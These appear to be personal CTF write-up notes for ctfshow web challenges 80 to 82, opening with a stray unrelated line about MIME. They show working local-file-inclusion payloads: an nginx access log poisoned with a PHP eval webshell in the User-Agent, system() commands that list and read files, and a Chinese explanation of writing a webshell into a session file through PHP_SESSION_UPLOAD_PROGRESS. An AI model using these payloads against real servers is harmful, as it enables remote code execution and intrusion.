 MIME is a crucial standard in Internet communications that enhances the basic format of emails and web content to support multiple content types, character sets, and attachments. It plays a vital role in how data is transmitted and understood across different systems on the Internet.
# Web 80
![[Pasted image 20241104080002.png]]
As we can see, the server is `nginx/1.20.1`
![[Pasted image 20241106214154.png]]
So, we can use log file of `nginx` as the including file.
1. Payload is the ``?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();``
2. Capture the package, then modify the ==User-Agent==.
	1. Append with `<?php eval($_GET[2]);?>`
![[Pasted image 20241106221911.png]]
We can see that there are 2 `php` files: `fl0g.php`, `index.php`.
Now, let's use the same way to display the `fl0g.php`:
1. Payload is `?file=/var/log/nginx/access.log&2=system(%27tac%20/var/www/html/fl0g.php%27);phpinfo();`
2. Capture the package, append `<?php eval($_GET[2]);?>` to the User-Agent.
![[Pasted image 20241106222506.png]]
![[Pasted image 20241106222717.png]]
# Web 81
1. Open BurpSuite Pro
2. Payload: `/?file=/var/log/nginx/access.log`
	1. ![[Pasted image 20241107204635.png]]
3. Append `<?php eval($_GET[2]); ?>` to the User-Agent.
4. `/?file=/var/log/nginx/access.log&2=system("ls /var/www/html");phpinfo();`
	1. ![[Pasted image 20241107210414.png]]
	2. Find the `fl0g.php`.
5. `/?file=/var/log/nginx/access.log&2=system("tac /var/www/html/fl0g.php");phpinfo();`
	1. ![[Pasted image 20241107210836.png]]
# Web 82
![[Pasted image 20241110013342.png]]

==[reference](https://blog.csdn.net/Myon5/article/details/140207360)==
[code](https://gitee.com/neon2077/CTFNeon/blob/master/new/web/web82.py)
这段代码的工作原理和各个步骤之间的关系。

  1. 写线程（write 函数）的作用

• 目标：通过上传文件并利用 `PHP_SESSION_UPLOAD_PROGRESS` 机制，将恶意代码 `<?php eval($_POST[1]); ?>` 写入服务器的会话文件 `/tmp/sess_ctfshow`。

• 原理：在 PHP 中，当文件上传时，如果 `session.upload_progress.enabled` 选项开启，PHP 会在会话文件中写入上传进度信息。攻击者利用这一机制，在 `PHP_SESSION_UPLOAD_PROGRESS` 中传入自定义数据，使得这些数据被写入会话文件。

• 操作：写线程不断发送包含特制的 `PHP_SESSION_UPLOAD_PROGRESS` 数据的 POST 请求，试图在会话文件中插入恶意代码。
